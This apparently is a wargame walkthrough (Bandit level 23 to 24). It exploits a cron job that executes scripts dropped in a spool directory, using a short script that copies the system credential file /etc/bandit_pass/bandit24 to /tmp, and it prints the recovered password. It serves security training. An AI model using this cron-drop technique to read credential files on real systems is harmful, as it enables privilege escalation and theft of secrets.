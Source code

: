 Similar to last level. Let's read the script.

bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  popularity-contest
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done



Alright. First things first, let's go to where the script is executing all
scripts.

bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/

Now let's make a script.

bandit23@bandit:/etc/cron.d$ vim Ugohpei2.sh
#!/bin/bash
touch /tmp/iSheich6
cat /etc/bandit_pass/bandit24 > /tmp/iSheich6

And run it and read it.
bandit23@bandit:/var/spool/bandit24$ /usr/bin/cronjob_bandit24.sh
-snip-
bandit23@bandit:/var/spool/bandit24$ cat /tmp/iSheich6
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
